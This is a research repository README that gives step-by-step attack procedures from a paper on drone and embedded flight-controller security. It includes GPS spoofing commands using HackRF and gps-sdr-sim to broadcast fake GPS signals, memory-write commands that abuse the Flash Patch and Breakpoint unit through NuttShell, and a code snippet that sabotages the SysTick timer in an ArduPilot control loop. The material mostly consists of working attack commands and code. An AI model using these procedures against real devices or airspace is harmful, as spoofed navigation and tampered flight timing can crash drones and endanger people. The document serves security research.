 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
### Prerequisite
1) You need to have a software-defined radio like <a href="https://greatscottgadgets.com/hackrf/one/" target="_blank">HackRF One</a> which could simulate GPS L1 signal. 
2) Install HackRF package
```bash
sudo apt-get update -y
sudo apt-get install -y hackrf
```

3) Install <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> GPS position simulator</a>


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use <a href="https://github.com/purseclab/M2MON/tree/main/attacks/GPS_spoofing" target="_blank"> brdc3540.14n</a> as an ephemeris file, you can generate GPS messages by using the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

## FPB (Flash Patch and Breakpoint Unit) attack
### Prerequisite
1) Your main system-on-Chip must be equipped with a FPB unit. We used <a href="https://www.st.com/en/microcontrollers-microprocessors/stm32f427-437.html" target="_blank">STM32F427</a>.

2) RTOS can execute shell commands (e.g., mw and mh).

### How to execute it?
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```
2) Activate the FPB unit and execute a new command
```bash
mw 0xE0002004=0x20000000 1
mh 0x20000014=0xe7fe 1
mw 0xE0002000=0x1 1
mw 0xE000201C=0x0807efb9 1
```

## Timer attack
### Prerequisite
1) You need to know a value of the SysTick register (STK_LOAD). You can probably find such a register address on dataseet or source code of the RTOS (NuttX).

### How to conduct the attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000E014: STK_LOAD’s register address
volatile unsigned int *Timer_attack = (volatile unsigned int *) 0xE000E014;

// Increasing the value to 2X of the original value (0x2903F) set by the RTOS
*Timer_attack = 335998;
```

2) You can confirm the effect of the timer attack after booting.
<img src="https://github.com/purseclab/M2MON/tree/main/attacks/timer_attack/result.png">


